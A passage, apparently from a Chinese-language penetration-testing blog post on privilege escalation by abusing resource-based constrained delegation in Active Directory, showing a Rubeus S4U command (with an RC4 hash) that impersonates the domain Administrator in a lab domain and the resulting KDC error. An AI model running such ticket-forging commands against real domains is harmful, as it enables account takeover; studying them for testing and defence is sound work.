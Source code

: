 ![](/assets/posts/2022-05-27-privilege-escalation-exploiting-rbcd-using-a-user-account/image-20220527000409790.png)

然后，我们尝试通过 S4U 代表域管理员用户申请针对机器账户 `WIN10-CLIENT1$` 的特权票据，如下图所示，我们得到了一个 `KDC_ERR_S_PRINCIPAL_UNKNOWN` 错误。

```console
C:\Users\Marcus\Desktop> Rubeus.exe s4u /user:Marcus /rc4:87A5F6CDC2E2A9B5FC89FE2E8259CF94 /impersonateuser:Administrator /domain:pentest.com /dc:DC01.pentest.com /msdsspn:HOST/WIN10-CLIENT1 /ptt
```
